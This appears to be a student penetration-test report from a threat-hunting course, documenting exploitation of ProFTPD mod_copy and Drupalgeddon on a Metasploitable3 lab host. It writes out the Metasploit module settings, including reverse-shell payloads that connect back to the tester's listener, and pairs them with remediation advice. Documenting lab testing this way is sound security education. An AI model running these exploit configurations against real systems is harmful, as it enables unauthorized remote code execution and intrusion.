




# Penetration Testing Report: Metasploitable3 Linux

**Course:** IT460 Threat Hunting &nbsp;·&nbsp; **Category:** Penetration Testing / Web &amp; Service Exploitation &nbsp;·&nbsp; **Environment:** Isolated Azure Lab network (self-directed)

> The full report is rendered below. A formal copy is also available for download: [**Metasploitable3-Linux-Pentest-Report.pdf**](./Metasploitable3-Linux-Pentest-Report.pdf)

## Outcome

- Identified and validated two unauthenticated remote-code-execution vulnerabilities on the Metasploitable3 Linux target.
- Exploited ProFTPD 1.3.5 mod_copy (CVE-2015-3306) to obtain a command shell as `www-data`.
- Exploited Drupal 7.5 Drupalgeddon (CVE-2014-3704) via SQL injection to obtain a PHP Meterpreter session.

## Skills Demonstrated

- Reconnaissance and Service Enumeration
- Vulnerability Research and CVE Mapping
- Unauthenticated Remote Code Execution
- SQL Injection Exploitation (Drupalgeddon)
- Metasploit Framework Operation
- Professional Penetration-Test Reporting

## Tools Used

- Kali Linux
- Nmap
- Metasploit Framework
- cURL
- ProFTPD mod_copy exploit module
- Drupalgeddon exploit module

---

## Assessment Overview

| Item | Details |
| --- | --- |
| Target | Metasploitable3 Ubuntu 14.04 |
| Target IP | `192.168.38.30` |
| Testing System | Kali Linux |
| Tester IP | `192.168.38.10` |
| Assessment Type | Authorized vulnerability validation |
| Environment | Isolated Azure Lab network |

## Executive Summary

Testing identified two high-severity vulnerabilities that permitted unauthenticated remote code execution on the Metasploitable3 Linux server. ProFTPD 1.3.5 allowed unauthenticated file-copy commands to place and execute a PHP payload through the Apache web server. Separately, Drupal 7.5 was vulnerable to Drupalgeddon, an SQL injection flaw that was leveraged to execute PHP and establish a Meterpreter session.

Both findings produced remote access under the Apache `www-data` account. An external attacker who could reach these services would be able to execute commands, access application data, modify web content, and potentially pursue privilege escalation.

## Findings Summary

| Finding | Vulnerability | Severity | Result |
| --- | --- | --- | --- |
| 1.1 | ProFTPD 1.3.5 Mod_Copy Remote Code Execution | **High** | Command shell obtained |
| 2.1 | Drupal 7.5 Drupalgeddon SQL Injection to RCE | **High** | Meterpreter session obtained |

---

## Finding 1.1 — ProFTPD 1.3.5 Mod_Copy Remote Code Execution

| Field | Assessment Details |
| --- | --- |
| **Title** | ProFTPD 1.3.5 Mod_Copy Remote Code Execution |
| **Description** | ProFTPD 1.3.5 contained an enabled mod_copy implementation that accepted unauthenticated `SITE CPFR` and `SITE CPTO` commands. These commands allowed an external client to copy data between locations accessible to the FTP service. By copying a PHP payload into the Apache document root and requesting it over HTTP, the vulnerability was converted into remote command execution. |
| **Resources Affected** | Metasploitable3 Ubuntu 14.04 — `192.168.38.30`; ProFTPD 1.3.5 on TCP port 21; Apache HTTP Server on TCP port 80 |
| **Severity** | **High.** The vulnerability was remotely exploitable without authentication and resulted in command execution as `www-data`. Successful exploitation could expose application data and support further compromise. |
| **Recommendations** | Upgrade ProFTPD to a supported release that is not vulnerable to CVE-2015-3306. Disable mod_copy if it is unnecessary, restrict FTP exposure to authorized systems, prevent the FTP service from writing to web-accessible directories, and enforce least-privilege file permissions. |
| **External References** | [NVD — CVE-2015-3306](https://nvd.nist.gov/vuln/detail/CVE-2015-3306) · [Rapid7 — ProFTPD Mod_Copy module](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/) |

### Technical Analysis — Finding 1.1

**Reconnaissance**

Nmap identified ProFTPD 1.3.5 on TCP port 21 and Apache HTTP Server 2.4.7 on TCP port 80:

```bash
sudo nmap -sC -sV -T4 192.168.38.30
```

The detected ProFTPD version was researched and associated with CVE-2015-3306. The vulnerability permits unauthenticated use of the `SITE CPFR` and `SITE CPTO` commands to read or write files accessible to the FTP service.

**Exploitation**

The Metasploit ProFTPD Mod_Copy module was configured with the target's FTP and HTTP services:

```bash
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS 192.168.38.30
set RPORT_FTP 21
set RPORT 80
set TARGETURI /
set SITEPATH /var/www/html
set LHOST 192.168.38.10
set payload cmd/unix/reverse_perl
run
```

The module used the unauthenticated copy commands to place a temporary PHP payload inside the Apache document root. It then requested the PHP file through the web server, causing the target to connect to the reverse TCP listener. The temporary payload was removed automatically after execution.

**Command and Control**

The reverse connection established a command-shell session from 192.168.38.30 to the Kali Linux listener at 192.168.38.10:4444. The following commands validated the session — `id`, `hostname`, `uname -a`, `pwd` — and confirmed:

```
uid=33(www-data) gid=33(www-data)
metasploitable3-ub1404
Linux 3.13.0-24-generic x86_64
```

**Root Cause**

The root cause was the presence of vulnerable ProFTPD 1.3.5 code with mod_copy exposed to unauthenticated network clients. The risk was increased because the FTP service could write into the Apache document root, allowing copied data to become executable web content.

**Validation and Limitations**

Metasploit confirmed that the unauthenticated `SITE CPFR` command was accepted, and exploitation opened a remote shell. The session operated as the restricted `www-data` service account rather than root. Privilege escalation was not required to validate the finding and was outside the selected attack objective. The Apache document root was `/var/www/html`; configuring that location allowed the payload to be written and executed successfully.

**Impact**

An attacker could use this vulnerability to execute operating-system commands remotely, read or alter files accessible to the service account, modify web application content, access application configuration or credentials, install web shells or other malicious files, and attempt local privilege escalation.

### Evidence — Finding 1.1

**Figure 1.1 — ProFTPD 1.3.5 Identified During Reconnaissance**

Nmap identified ProFTPD 1.3.5 listening on TCP port 21 of 192.168.38.30. The scan also identified Apache on port 80, establishing the two services used to place and execute the PHP payload.



**Figure 1.2 — Successful ProFTPD Remote Command Execution**

The ProFTPD Mod_Copy exploit placed and executed a PHP payload, opened a reverse command shell, and removed the temporary payload. System commands confirmed execution as `www-data` on the metasploitable3-ub1404 host.



---

## Finding 2.1 — Drupal 7.5 Drupalgeddon SQL Injection to RCE

| Field | Assessment Details |
| --- | --- |
| **Title** | Drupal 7.5 Drupalgeddon SQL Injection to Remote Code Execution |
| **Description** | Drupal 7.5 was vulnerable to CVE-2014-3704, commonly called Drupalgeddon. Improper handling of crafted array keys in Drupal's database abstraction layer allowed an unauthenticated attacker to manipulate SQL queries. The SQL injection was used to place executable PHP into Drupal's form cache, resulting in remote code execution. |
| **Resources Affected** | Metasploitable3 Ubuntu 14.04 — `192.168.38.30`; Drupal 7.5 at `http://192.168.38.30/drupal/` |
| **Severity** | **High.** The vulnerability required no authentication and resulted in a Meterpreter session as `www-data`. The Drupal Security Team classified the underlying vulnerability as highly critical. |
| **Recommendations** | Upgrade Drupal to a currently supported version. For the historical Drupal 7 branch, version 7.32 contained the original correction, but Drupal 7.5 should not remain in service. Review the server for unauthorized accounts, modified database entries, web shells, and persistence because applying an update does not remove evidence of an earlier compromise. |
| **External References** | [NVD — CVE-2014-3704](https://nvd.nist.gov/vuln/detail/CVE-2014-3704) · [Rapid7 — Drupalgeddon module](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/) |

### Technical Analysis — Finding 2.1

**Reconnaissance**

The initial Nmap scan identified an accessible Drupal application beneath the Apache document root. The public Drupal change log disclosed the installed version:

```bash
curl -s http://192.168.38.30/drupal/CHANGELOG.txt | head -n 12
```

The response identified Drupal 7.5 (2011-07-27). Drupal 7.5 falls within the vulnerable range for CVE-2014-3704, which affects Drupal 7 releases before version 7.32.

**Exploitation**

The Drupalgeddon module was configured to use the form-cache PHP injection method:

```bash
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.38.30
set RPORT 80
set TARGETURI /drupal/
set TARGET 0
set LHOST 192.168.38.10
set payload php/meterpreter/reverse_tcp
run
```

The module exploited the SQL injection to manipulate Drupal's cached form data and insert a PHP Meterpreter payload. Triggering the affected cache entry caused the web server to execute the payload.

**Command and Control**

The payload connected to the Kali listener and opened a PHP Meterpreter session. The `getuid`, `sysinfo`, and `pwd` commands validated the result and confirmed:

```
Server username: www-data
Computer: metasploitable3-ub1404
Architecture: x64
Meterpreter: php/linux
Working directory: /var/www/html/drupal
```

**Root Cause**

The root cause was Drupal 7.5's vulnerable database abstraction API. Crafted parameter keys were not handled safely when constructing prepared statements, allowing anonymous users to alter the resulting SQL query. The server also exposed its precise Drupal version through the publicly accessible CHANGELOG.txt file.

**Validation and Limitations**

The selected Metasploit module did not implement a separate check operation. Exploitation itself provided direct validation by establishing a Meterpreter session from the Drupal directory. The session operated as `www-data`. No persistence, database extraction, destructive modification, or privilege escalation was performed because successful remote code execution satisfied the assessment objective.

**Impact**

An attacker could potentially execute PHP and operating-system commands, access Drupal configuration and database credentials, read or modify application content, create unauthorized administrative accounts, extract sensitive database information, install persistent web shells, and use the web server as a foothold for further attacks.

### Evidence — Finding 2.1

**Figure 2.1 — Vulnerable Drupal Version Identified**

The public CHANGELOG.txt file identified the application as Drupal 7.5. This version falls within the affected range for CVE-2014-3704.



**Figure 2.2 — Successful Drupalgeddon Remote Code Execution**

The Drupalgeddon exploit established a PHP Meterpreter session. The `getuid`, `sysinfo`, and `pwd` commands confirmed access as `www-data` on the Metasploitable3 Ubuntu server from `/var/www/html/drupal`.



---

## Overall Recommendations

1. Remove or upgrade unsupported ProFTPD and Drupal installations.
2. Disable unnecessary FTP modules and externally exposed services.
3. Prevent service accounts from writing executable content into web directories.
4. Restrict management and legacy services through network segmentation.
5. Apply least-privilege permissions to FTP, web-server, and application accounts.
6. Remove public files that disclose exact application versions.
7. Monitor for unexpected PHP files, web shells, outbound connections, and changes to Drupal's database.
8. Conduct a compromise assessment before returning affected systems to service.

## Reflection

This assessment demonstrated the value of validating vulnerabilities rather than relying only on version detection. Nmap and the Drupal change log identified potentially vulnerable software, while successful remote sessions confirmed that both conditions were exploitable.

The two findings also demonstrated different paths to the same security impact. ProFTPD used an unauthenticated file-copy weakness to place executable web content, while Drupalgeddon used SQL injection to introduce executable PHP through application data. Both ultimately provided remote access under the web-server account, showing how weaknesses in separate services can expose the same host to compromise.
